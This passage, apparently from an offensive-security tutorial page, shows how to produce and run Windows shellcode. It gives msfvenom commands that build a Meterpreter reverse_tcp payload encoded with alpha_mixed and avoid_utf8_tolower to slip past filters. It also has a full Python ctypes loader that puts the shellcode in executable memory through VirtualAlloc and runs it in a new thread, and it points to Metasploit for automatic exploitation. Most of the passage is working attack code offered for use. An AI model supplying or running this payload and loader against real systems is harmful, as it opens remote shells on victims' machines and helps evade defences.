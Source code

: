 - **Memory Injection:** If you generated raw shellcode (`-f raw` or `-f c`), inject it into memory using C, Python, or other languages that allow system-level memory management (e.g., `VirtualAlloc` and `CreateThread` for Windows).

If you want to inject the raw shellcode into memory using a programming language like Python, follow these steps.

**Using** `alpha_mixed`:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -e x86/alpha_mixed -f raw > alpha_mixed.raw
```

Using `avoid_utf8_tolower`:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -e x86/avoid_utf8_tolower -f raw > avoid_utf8_tolower.raw
```

Here’s a Python script that will read the raw shellcode from the file and execute it in memory.

```
import ctypes
import os

def execute_shellcode(shellcode):
    # Allocate memory for the shellcode
    shellcode_ptr = ctypes.windll.kernel32.VirtualAlloc(
        None, len(shellcode), 0x3000, 0x40)

    # Move the shellcode to the allocated memory
    ctypes.windll.kernel32.RtlMoveMemory(shellcode_ptr, shellcode, len(shellcode))

    # Create a thread to execute the shellcode
    thread_handle = ctypes.windll.kernel32.CreateThread(
        None, 0, shellcode_ptr, None, 0, None)
    
    # Wait for the thread to finish
    ctypes.windll.kernel32.WaitForSingleObject(thread_handle, -1)

if __name__ == "__main__":
    # Load the shellcode from the raw file
    with open("alpha_mixed.raw", "rb") as f:
        shellcode = f.read()

    execute_shellcode(shellcode)
```

- **Memory Allocation:** The script allocates executable memory using `VirtualAlloc`.
- **Move Memory:** It then uses `RtlMoveMemory` to copy the shellcode into the allocated memory.
- **Create Thread:** The shellcode is executed in a new thread using `CreateThread`.
- **Execution:** The `WaitForSingleObject` function is used to wait until the thread has finished executing.
- **Exploit Frameworks:** Load the encoded payload into Metasploit or other frameworks for automatic exploitation:
